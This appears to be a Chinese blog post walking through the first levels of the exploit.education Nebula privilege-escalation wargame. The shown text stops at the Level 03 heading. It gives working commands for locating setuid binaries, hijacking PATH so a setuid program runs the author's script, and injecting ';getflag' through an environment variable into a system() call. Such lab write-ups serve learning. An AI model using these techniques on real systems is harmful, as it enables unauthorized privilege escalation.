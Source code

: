 ```yaml
---
layout: post
title: "exploit.education/Nebula"
---
```


辞职躺在家里快3个月了，花式打发时间。这里记录 [exploit.education/Nebula](https://exploit.education/nebula/) 解题过程。

安装很简单，从[这里](https://github.com/ExploitEducation/Nebula/releases/download/v5.0.0/exploit-exercises-nebula-5.iso)下载 LiveCD，导进 VirtualBox 里就能用了。为了方便从 Host 连进去可以配个 Host-only Network。

所有题目都是要求从 levelxx 用户以 flagxx 用户身份执行 getflag 程序。

## Level 00

用 find 找根目录下 flag00 所有的 setuid 程序

```bash
level00@nebula:~$ find / -perm -4000 -exec ls -alh {} \; 2>/dev/null | grep flag00
-rwsr-x--- 1 flag00 level00 7.2K 2011-11-20 21:22 /bin/.../flag00
-rwsr-x--- 1 flag00 level00 7.2K 2011-11-20 21:22 /rofs/bin/.../flag00
level00@nebula:~$ /bin/.../flag00
Congrats, now run getflag to get your flag!
flag00@nebula:~$ getflag
You have successfully executed getflag on a target account
```

## Level 01

修改 PATH 环境变量让 setuid bin 调用到自己的脚本，记得加 chmod +x。

```bash
level01@nebula:~$ cat echo
#!/bin/bash
getflag
level01@nebula:~$ export PATH=/home/level01:$PATH
level01@nebula:~$ /home/flag01/flag01
You have successfully executed getflag on a target account
```

## Level 02

永远不要把不可信输入放进 system()/eval/...

```bash
level02@nebula:~$ env USER=";getflag" /home/flag02/flag02
about to call system("/bin/echo ;getflag is cool")

You have successfully executed getflag on a target account
```

## Level 03
